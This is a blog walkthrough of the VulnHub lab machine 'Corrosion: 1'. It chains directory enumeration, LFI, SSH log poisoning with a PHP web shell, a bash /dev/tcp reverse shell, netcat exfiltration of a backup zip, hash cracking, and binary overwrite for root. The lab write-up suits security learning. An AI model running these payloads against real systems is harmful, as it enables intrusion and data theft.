 <!-- wp:list -->
<ul><!-- wp:list-item -->
<li><strong>Name</strong>: Corrosion: 1</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li><strong>Date release</strong>: 31 Jul 2021</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li><strong>Author</strong>:&nbsp;<a href="https://www.vulnhub.com/author/proxy-programmer,812/" target="_blank" rel="noreferrer noopener">Proxy Programmer</a></li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li><strong>Series</strong>:&nbsp;<a href="https://www.vulnhub.com/series/corrosion,491/" target="_blank" rel="noreferrer noopener">Corrosion</a></li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:paragraph -->
<p>Download the machine:</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><a href="https://www.vulnhub.com/entry/corrosion-1,730/" target="_blank" rel="noreferrer noopener">https://www.vulnhub.com/entry/corrosion-1,730/</a></p>
<!-- /wp:paragraph -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"vivid-purple","fontSize":"small"} -->
<p class="has-text-align-center has-vivid-purple-background-color has-background has-small-font-size">Overview</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Enumeration will lead a blog-post folder, enumerate the folder again to find an archive folder</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Use ffuf to find a URL paramaeter for a LFI vulnerablity</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Log poisoning vulnerability is present</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Inject a php backdoor into the logs</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Attached a reverse shell into the php backdoor</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Find for a user backup zip and transfer it to attacking machine</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Crack the zip folder with john to gain some creds and other files</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Once user access is gain via SSH check for sudo permissions</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Write a binary and overwrite the main file to get root access</li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"luminous-vivid-amber","fontSize":"small"} -->
<p class="has-text-align-center has-luminous-vivid-amber-background-color has-background has-small-font-size"><strong>Enumeration</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Run nmap scan to find for open ports.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7208,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-562.png?w=945" alt="" class="wp-image-7208"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Run a gobuster scan to find for hidden directories. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7209,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-563.png?w=1024" alt="" class="wp-image-7209"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Web server</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7213,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-566.png?w=820" alt="" class="wp-image-7213"/><figcaption class="wp-element-caption">Found a potential user name.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>/tasks</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7210,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-564.png?w=587" alt="" class="wp-image-7210"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":7211,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-565.png?w=626" alt="" class="wp-image-7211"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Couldn't find any more cluse so I decided to enumerate the blog-post directory.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7214,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-567.png?w=1024" alt="" class="wp-image-7214"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Found an archives folder. That contain a php log file.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7216,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-568.png?w=609" alt="" class="wp-image-7216"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":7218,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-569.png?w=741" alt="" class="wp-image-7218"/><figcaption class="wp-element-caption">Let's see if we can fuzz the URL parameter to get an access for LFI. Use the ffuf tool.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:image {"id":7220,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-570.png?w=1024" alt="" class="wp-image-7220"/><figcaption class="wp-element-caption">Found a parameter.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Let's test the payload.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7222,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-571.png?w=954" alt="" class="wp-image-7222"/><figcaption class="wp-element-caption">It works.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Since the to-do list indicates to change the authentication of the log file , let's see if we can access them.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7225,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-573.png?w=1024" alt="" class="wp-image-7225"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Let's test a log poisoning attack with a random username.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7224,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-572.png?w=1010" alt="" class="wp-image-7224"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Since log poisoning is a possibility let's inject it with a backdoor. You read more of it <a href="https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d" data-type="URL" data-id="https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d" target="_blank" rel="noreferrer noopener">here</a>.</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code><em>Payload : </em>'‘&lt;?php system($_GET&#91;"cmd"]); ?>’'</code></pre>
<!-- /wp:code -->

<!-- wp:paragraph -->
<p>SSH to the machine with the above payload.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7228,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-574.png?w=1024" alt="" class="wp-image-7228"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Payload is injected.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7229,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-575.png?w=1022" alt="" class="wp-image-7229"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Let's enter id to test the payload.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7232,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-577.png?w=811" alt="" class="wp-image-7232"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":7231,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-576.png?w=1024" alt="" class="wp-image-7231"/><figcaption class="wp-element-caption">we are able to use command injection.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Now inject a bash revershell. Make sure to URL encode the file and start a netcat listener.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>bash -c 'bash -i >&amp; /dev/tcp/192.168.18.8/1234 0>&amp;1'</p>
<!-- /wp:paragraph -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"vivid-cyan-blue","fontSize":"small"} -->
<p class="has-text-align-center has-vivid-cyan-blue-background-color has-background has-small-font-size"><strong>Foothold</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>User access gained.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7234,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-578.png?w=863" alt="" class="wp-image-7234"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I upgraded the shell and tried to access the randy folder but we don't have permissions. We don't have sudo permissions either.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7235,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-579.png?w=731" alt="" class="wp-image-7235"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>After some time enumerating the folders , I found a user backup zip file. I used netcat to transfer the file to my local machine.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>On your local machine use this command to recive the file : nc -nlvp 4444 > user.zip</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>On the target machine use this to send the file : cat user_backup.zip > /dev/tcp/192.168.18.8/4444</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7237,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-580.png?w=881" alt="" class="wp-image-7237"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Now that we have the file , it is password protected. So we need to break into it.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Use zip2john | tee hash and then john to crack the hash.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7239,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-581.png?w=1024" alt="" class="wp-image-7239"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Unzip the file and we get the following.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7241,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-582.png?w=438" alt="" class="wp-image-7241"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Read the password and we are able to SSH into the randy user.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7243,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-583.png?w=1024" alt="" class="wp-image-7243"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Check sudo permissions.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7245,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-584.png?w=1024" alt="" class="wp-image-7245"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Found the first flag.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7247,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-585.png?w=355" alt="" class="wp-image-7247"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"black","textColor":"white","fontSize":"small"} -->
<p class="has-text-align-center has-white-color has-black-background-color has-text-color has-background has-small-font-size"><strong>Privilege escalation</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>We head to the tools folder and found the easysysinfo tools.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7248,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-586.png?w=669" alt="" class="wp-image-7248"/><figcaption class="wp-element-caption">However they are root protected and we aren't able to edit the file.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I remember seeing a easysysinfo file in the zipped file but it is written in C instead of python.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7250,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-587.png?w=457" alt="" class="wp-image-7250"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Let's replicate this file but add a bash shell inside the code.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7252,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-588.png?w=485" alt="" class="wp-image-7252"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Compile the file and set the output as the easysysinfo main file to overwrite it.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7254,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-589.png?w=613" alt="" class="wp-image-7254"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Root access will be gained.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":7255,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/10/image-590.png?w=671" alt="" class="wp-image-7255"/></figure>
<!-- /wp:image -->
